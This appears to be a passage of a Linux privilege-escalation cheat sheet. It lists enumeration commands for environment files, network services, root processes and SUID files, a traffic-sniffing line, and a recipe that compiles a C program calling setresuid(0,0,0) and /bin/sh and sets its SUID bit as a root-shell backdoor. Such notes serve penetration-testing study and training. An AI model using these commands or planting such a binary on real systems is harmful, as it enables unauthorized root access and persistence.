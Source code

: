 Anything else in the environmental variables? symlinks?
```bash
cat /etc/profile
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bash_logout
env
set
find / -type l -ls
```
Anything going on with the network? hidden services? logged in users?
```bash
/sbin/ifconfig -a 
cat /etc/network/interfaces 
cat /etc/sysconfig/network
lsof -i 
lsof -i :80 
grep 80 /etc/services 
netstat -antup 
netstat -antpx 
netstat -tulpn 
chkconfig --list 
chkconfig --list | grep 3:on 
last 
w
arp -a 
```

Can you sniff traffic?
```bash
tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.5.5.252 21
```



### SUID Files, Root Services, and Other Files

Check for things running as root
```bash
ps aux | grep root
ps -ef | grep root
```
Check the version of something that's installed
```bash
dpkg -l | grep -i PAM
```
Any file-systems mounted or unmounted?
```bash
mount
df -h
cat /etc/fstab
```
Then do suid/guid and other interesting files.
```bash
find / -perm -4000 -exec ls -al -print 2>/dev/null {} \;
find / -uid 0 -perm -4000 2>/dev/null
```
To create our own SUID binary
```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid 
sudo chmod +s /tmp/suid 
```
